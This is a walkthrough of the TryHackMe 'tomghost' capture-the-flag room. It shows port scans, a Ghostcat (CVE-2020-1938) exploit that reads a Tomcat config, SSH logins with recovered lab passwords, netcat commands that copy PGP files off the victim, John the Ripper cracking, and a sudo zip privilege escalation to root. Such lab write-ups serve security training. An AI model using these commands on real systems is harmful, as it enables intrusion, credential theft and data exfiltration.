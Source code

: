 # tomghost

### Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Victim**

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git 
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/
python2 CVE-2020-1938.py $VICTIM -p 8009 -f WEB-INF/web.xml
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh skyfuck@$VICTIM
Password: 8730281lkjlkjdqlksalks
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Netcat <a href="#netcat" id="netcat"></a>

**Kali(receiving)**

```
nc -l -p 1234 > credential.pgp
nc -l -p 1234 > tryhackme.asc
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < credential.pgp
nc -w 3 $KALI 1234 < tryhackme.asc
```

**Kali**

```
/opt/john/gpg2john tryhackme.asc > pgp.hash
john pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --import tryhackme.asc 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --decrypt credential.pgp 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation  <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh merlin@$VICTIM
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

**Exploit:** [https://gtfobins.github.io/gtfobins/zip/](https://gtfobins.github.io/gtfobins/zip/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>
